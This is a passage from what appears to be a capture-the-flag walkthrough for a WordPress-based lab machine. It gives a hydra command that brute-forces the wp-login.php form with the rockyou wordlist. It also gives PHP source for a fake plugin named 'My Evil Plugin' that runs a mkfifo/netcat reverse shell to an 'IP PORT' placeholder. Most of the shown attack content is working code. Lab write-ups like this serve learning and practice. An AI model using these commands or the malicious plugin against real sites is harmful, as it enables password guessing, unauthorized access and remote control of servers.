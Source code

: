 [-] Completed in: 0:02:15

{% endhighlight %}

### C0LDD (User has WP Admin access)
***
<p>
In order to find password used following command.
</p>
{% highlight bash %}
hydra -L usrname.txt -P /usr/share/wordlists/rockyou.txt 10.10.34.213 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
{% endhighlight %}
<br>

### WORDPRESS
***

<br>
Not telling how to do plugin upload and activation on the WP. I've used following code for plugin.
{% highlight php %}
<?php
/**
 * Plugin Name:       My Evil Plugin
 * Plugin URI:        https://example.com/plugins/the-basics/
 * Description:       Handle the basics with this plugin.
 * Version:           1.10.3
 * Requires at least: 5.2
 * Requires PHP:      7.2
 * Author:            John Smith
 * Author URI:        https://author.example.com/
 * License:           GPL v2 or later
 * License URI:       https://www.gnu.org/licenses/gpl-2.0.html
 * Text Domain:       my-basics-plugin
 * Domain Path:       /languages
 */

set_time_limit(0);
$VERSION = "1.0";
$chunk_size = 1400;
// Check this out later
$write_a = null;
$error_a = null;

$shell = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f";

$daemon = 0;
$debug = 0;
system($shell);

{% endhighlight %}
<br>
